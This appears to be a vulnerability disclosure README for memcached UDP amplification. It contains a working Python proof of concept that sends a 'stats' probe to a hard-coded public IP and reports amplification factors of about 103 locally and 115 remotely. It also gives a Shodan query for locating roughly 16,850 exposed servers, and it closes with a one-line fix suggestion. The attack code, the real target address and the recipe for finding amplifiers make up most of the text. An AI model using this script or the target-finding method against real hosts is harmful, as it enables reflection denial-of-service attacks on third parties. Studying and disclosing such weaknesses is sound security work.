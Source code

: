 # payload
```
import socket
from loguru import logger
import sys
from time import sleep

logger.remove(handler_id=None)
level = "INFO"
logger.add(sink=sys.stdout, level=level)

host='47.104.221.142'
port=11211

def recv_all(sock):
    sock.settimeout(1)
    recv_data = b''
    data_len = 0
    while True:
        try:
            data = sock.recv(1024)
            if data == b'':
                break
            recv_data += data
            data_len += len(data)
        except Exception as e:
            break

    return recv_data, data_len

def handler(msg):

    recv_data = b''
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(msg, (host, port))
    msg_len = len(msg)
    
    data, data_len = recv_all(sock)

    logger.info(f'send_len: {msg_len} -> res_len: {data_len}')
    factor_l7 = data_len / msg_len
    logger.info(f"factor_l7: {factor_l7}")

    sock.close()

get_stats_128_60 = b'\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n'

def main():
    msgs = get_stats_128_60
    handler(msgs)

if __name__ == '__main__':
    main()
```

# local test
Complite memcached version 1.6.29.

Run memcached with `./memcached -u root`

The service runs on UDP port 11211 by default.
![1](assests/1.png)

Sending requests to the service port using payload.py can result in an amplified response, with an amplification factor of about 103.
![2](assests/2.png)

# remote test

Using Shodan to search `port:11211 product:"Memcached"`, you can find approximately 16,850 available Memcached services.

![4](assests/4.png)

Sending requests to the service port using `payload.py` can result in an amplified response, with an amplification factor of about 115.

![3](assests/3.png)

# fix suggest

It is recommended to implement necessary access control policies and rate limiting in Memcached to prevent its use in distributed amplification denial-of-service attacks.